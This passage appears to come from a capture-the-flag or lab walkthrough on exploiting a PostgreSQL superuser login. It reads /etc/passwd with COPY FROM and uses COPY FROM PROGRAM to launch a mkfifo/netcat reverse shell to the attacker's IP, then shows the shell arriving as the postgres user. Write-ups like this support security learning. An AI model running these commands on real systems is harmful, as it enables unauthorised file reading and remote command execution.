 Here, we simply performed a port forward. The `-N` option doesn't open a shell; it only forwards the port.\
We don't want that **thing** that disconnects us, because it's unwanted.

```bash
➜  home psql -h localhost -p 5432 -U postgres
psql (17.2 (Debian 17.2-1), server 14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
Type "help" for help.

postgres=# help
You are using psql, the command-line interface to PostgreSQL.
Type:  \copyright for distribution terms
       \h for help with SQL commands
       \? for help with psql commands
       \g or terminate with semicolon to execute query
       \q to quit
```

We’ve successfully connected to PostgreSQL. Congratz!

We can easily read the files.

```bash
postgres=# CREATE TABLE read_files(output text);
CREATE TABLE
postgres=# COPY read_files FROM '/etc/passwd';
COPY 38
postgres=# SELECT * FROM read_files;
							output                                           
-------------------------------------------------------------------------------------------
 root:x:0:0:root:/root:/bin/bash
 daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
<SNIP>
 service:x:1337:1337:,,,,default password:/home/service:/bin/false
(38 rows)


```

Or we can directly execute commands.

```bash
postgres=# CREATE TABLE shell(output text);
CREATE TABLE
postgres=# COPY shell FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.6.29 443 >/tmp/f';
```

```zsh
➜  home rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.8.6.29] from (UNKNOWN) [10.10.74.222] 52918
/bin/sh: 0: can't access tty; job control turned off
$ whoami
postgres
```
